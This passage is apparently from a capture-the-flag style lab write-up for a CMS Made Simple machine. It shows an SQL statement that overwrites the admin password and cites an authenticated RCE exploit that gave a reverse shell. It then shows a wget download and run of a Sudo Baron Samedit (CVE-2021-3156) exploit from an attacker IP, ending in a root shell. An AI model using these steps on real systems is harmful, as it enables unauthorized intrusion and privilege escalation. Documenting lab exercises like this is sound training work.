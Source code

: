 ```sql
update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value
FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'StrongShiv8'))) where username = 'admin';
```
{: .nolineno}
{: .nolineno}

Now lets Login with `admin : StrongShiv8` credentials →

![Untitled](My-CMSMS/Untitled%203.png)

I now then followed this path →

> [CMS Made Simple 2.2.15 - RCE (Authenticated)](https://www.exploit-db.com/exploits/49345)
{: .prompt-info }

Through this path I got the reverse shell → 

![Untitled](My-CMSMS/Untitled%204.png)

Lets see how can I get to root →

```bash
www-data@mycmsms:/home/armour$ sudo -V
Sudo version 1.8.27
Sudoers policy plugin version 1.8.27
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.27
www-data@mycmsms:/home/armour$ which gcc
/usr/bin/gcc
```
{: .nolineno}
{: .nolineno}

Since Sudo version is vulnerable so I used a exploit named as **[CVE-2021-3156 (Sudo Baron Samedit)](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py)**

```bash
www-data@mycmsms:/home/armour$ cd /tmp
www-data@mycmsms:/tmp$ wget http://192.168.45.226/exploit_nss.py
--2023-12-03 03:54:59--  http://192.168.45.226/exploit_nss.py
Connecting to 192.168.45.226:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8179 (8.0K) [text/x-python]
Saving to: 'exploit_nss.py'

exploit_nss.py      100%[===================>]   7.99K  33.6KB/s    in 0.2s    

2023-12-03 03:54:59 (33.6 KB/s) - 'exploit_nss.py' saved [8179/8179]

www-data@mycmsms:/tmp$ chmod +x exploit_nss.py 
www-data@mycmsms:/tmp$ python3 exploit_nss.py 
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data),1001(nagios),1002(nagcmd)
# cd /root
# ls -al
total 20
drwx------  4 root root 4096 Dec  3 01:23 .
drwxr-xr-x 18 root root 4096 Jun 29  2020 ..
-rw-------  1 root root    0 Sep  1  2020 .bash_history
-rw-r--r--  1 root root    0 Aug 20  2020 .bashrc
drwx------  3 root root 4096 Mar 25  2020 .gnupg
-rw-r--r--  1 root root    0 Aug 20  2020 .profile
-rw-r--r--  1 root root    0 Aug 20  2020 .selected_editor
drwxr-xr-x  2 root root 4096 Mar 25  2020 .ssh
-rw-r--r--  1 root root   33 Dec  3 01:23 proof.txt
```